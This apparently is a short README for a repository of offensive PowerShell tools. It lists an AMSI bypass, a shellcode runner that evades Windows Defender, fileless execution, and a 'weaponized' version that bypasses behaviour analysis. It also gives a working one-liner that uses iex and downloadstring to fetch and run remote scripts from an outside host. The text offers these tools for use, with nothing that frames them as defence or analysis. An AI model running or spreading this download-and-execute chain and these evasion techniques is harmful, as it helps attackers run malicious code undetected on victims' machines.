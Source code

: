 # Powershell
 
- bypass.ps1: AMSI bypass
- test.ps1: powershell shellcode runner, (payload) detected by Defender (12/23/2020) (on-disk bypassed by Invoke-Expression, AMSI bypassed by chaining)
    - Working chain (12/23/2020): `iex (new-object net.webclient).downloadstring("http://192.168.47.130/bypass.ps1"); iex (new-object net.webclient).downloadstring("http://192.168.47.130/test.ps1")`

- UnsafeNativeMethods: Run code without leaving temp file on disk + bypass Add-Type


- WP: weaponized veriosn with behavior analysis bypass (12/24/2020) 

